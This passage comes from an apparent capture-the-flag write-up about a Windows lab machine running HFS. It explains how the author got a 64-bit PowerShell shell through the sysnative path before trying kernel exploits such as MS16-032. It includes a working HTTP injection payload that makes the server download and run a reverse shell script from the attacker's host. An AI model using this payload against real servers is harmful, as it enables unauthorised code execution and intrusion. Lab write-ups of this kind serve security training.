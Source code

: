 I spent a while trying to get these exploits to work, and where they
should work, they just didn't. Then I remembered the importance of
knowing the process architecture for the running PowerShell process.

Just calling `powershell` to activate the shell returns a process that
is running as a 32-bit process:



    PS C:\Users\kostas\Desktop> [Environment]::Is64BitProcess
    False



That is because the HFS process is likely running as a 32-bit process.
This table (stolen from
[ss64.com](https://ss64.com/nt/syntax-64bit.md)) shows how the
different paths work based on the current session architecture:

![](/img/image-20210314142131188.png)

So from within a 32-bit session, calling PowerShell from the
`C:\windows\system32` path will give the 32-bit version. Being in a
32-bit session trying to run kernel exploits against a 64-bit OS will
fail.

To get a 64-bit shell, I'll use the full path to PowerShell in the
`sysNative` directory:



    GET /?search=%00{.exec|C%3a\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.10/rev.ps1').} HTTP/1.1
    Host: 10.10.10.8
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    DNT: 1
    Connection: close
    Cookie: HFS_SID=0.916518518235534
    Upgrade-Insecure-Requests: 1



The resulting shell is 64-bit:



    PS C:\Users\kostas\Desktop> [Environment]::Is64BitProcess
    True



### MS16-032
